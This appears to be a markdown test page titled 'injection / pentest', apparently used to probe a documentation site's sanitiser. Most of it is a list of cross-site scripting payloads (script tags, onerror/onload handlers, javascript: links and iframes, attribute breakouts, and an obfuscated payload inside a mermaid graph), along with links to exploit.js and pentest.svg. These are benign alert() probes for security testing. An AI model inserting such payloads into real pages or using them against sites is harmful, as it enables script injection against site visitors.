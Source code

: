# injection

pentest

object

<object data="https://stg.docs.developer.tech.gov.sg/docs/injection/pentest.svg" type="image/svg+xml"></object>

<script src="https://stg.docs.developer.tech.gov.sg/docs/injection/pentest.svg">


<script>alert('XSS');</script>

![Broken Image](invalid.jpg ':size=250' )
<img src="invalid.jpg" onerror="alert('XSS')">

<svg onload="alert('XSS')"></svg>

<img src="valid-image.jpg" alt="test" title="XSS" onerror=alert('XSS')>

<img src="valid-image.jpg" alt="test" title="><script>alert('XSS')</script>">

<iframe src="javascript:alert('XSS');"></iframe>

[Click Me](javascript:alert('XSS'))

[malicious link](something"onmouseover="alert('XSS'))

## XSS Test
 ```mermaid
  graph LR
      B-->D(<img onerror=location=`javascript\u003aalert\u0028document.domain\u0029` src=x>);
 ```
## js script
-[get jpg](/SampleJPGImage_1mbmb.jpg ':target=_blank')
-[get js](/exploit.js)
![get js](/exploit.js)
-[get js](/pentest.svg)
![get js](/pentest.svg)
-[get js](/pentest.svg.png)
![get js](/pentest.svg.png)

-[pentest](/pentest.js ':include :type=code')

-[pentest tok](/pentest)
-[pentest md](/pentest.js.md)



```
## iFrames Test

<figure>
<iframe width="425" height="350" frameborder="0" scrolling="no" marginheight="0" marginwidth="0" src="https://i.ytimg.com/vi/-IXqbuMOwYg/hq720.jpg?sqp=-oaymwEcCNAFEJQDSFXyq4qpAw4IARUAAIhCGAFwAcABBg==&rs=AOn4CLDmcWpHub9FsBmp6vQgQTz0sWK14Q" style="border: 1px solid black"></iframe>
</figure>

<figure>
<iframe width="560" height="315" src="https://www.youtube.com/embed/-IXqbuMOwYg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</figure>
```
